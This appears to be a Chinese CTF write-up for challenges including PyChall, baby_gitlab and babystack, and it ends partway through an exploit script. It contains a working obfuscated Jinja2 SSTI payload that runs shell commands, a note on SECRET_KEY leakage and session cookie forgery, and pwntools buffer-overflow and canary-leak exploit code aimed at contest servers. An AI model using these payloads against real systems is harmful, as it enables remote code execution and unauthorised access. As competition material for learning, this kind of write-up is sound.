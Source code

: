发现其中的请求测试工具可以使用 SSTI 。直接写入 `{{config}}` ，读取得到：

```json
'SECRET_KEY': '...'
```

然后通过 cookie 伪造 session 即可。

## PyChall - flag2

在远端服务器上搭一个小小的 http server ，然后一直发送请求测试，最终得到了这段代码：

```python
{{ ""[(dict(__cl=aa,ass__=dd )|join)][(dict(__ba=aa,ses__=dd )|join)][0][(dict(__subcl=aa,asses__=dd )|join)]()[137][(dict(__in=aa,it__=dd )|join)][(dict(__glo=aa,bals__=dd )|join)][(dict(__buil=aa,tins__=dd )|join)][(dict(ev=aa,al=dd )|join)]("__import__(\x22os\x22).popen(\x22cd / && ./readflag\x22).read()") }}
```

## baby_gitlab

这题解法和工具已经满天飞了。可以直接使用现成的渗透工具反弹终端，然后读 flag 即可。（并且喜提校园网警告）

## 人間観察バラエティ

寄了。

## babystack_level0

```python
from pwn import*

conn = remote('nc.thuctf.redbud.info', 31673)
payload = b'a'*120 + p64(0x4006C7)
conn.sendline(payload)
conn.interactive()
```

## babystack_level1

善用 IDA。

唯一一点需要注意的是 payload 要发一个 `ret` 对齐一下。

```python
from pwn import *

sh = remote('nc.thuctf.redbud.info', 31726)

sh = process("./babystack_level1")
# elf = ELF("./babystack_level1")
sh.recvuntil(b'What\'s your name?\n')
sh.sendline(b'/bin/sh')
sh.recvuntil(b'Just tell me your wish:')
sh.sendline(103*b'A'+b'B')
sh.recvuntil(b'AB')

recvcan = sh.recv(8)
canary = u64(recvcan)
canary = canary - ord('\n')

read_in_ptr = p64(0x040079A)
run_ptr = p64(0x4007EB)
system_ptr = p64(0x400660)
name_loc = p64(0x6010A0)
command_loc = p64(0x4009C8)
```
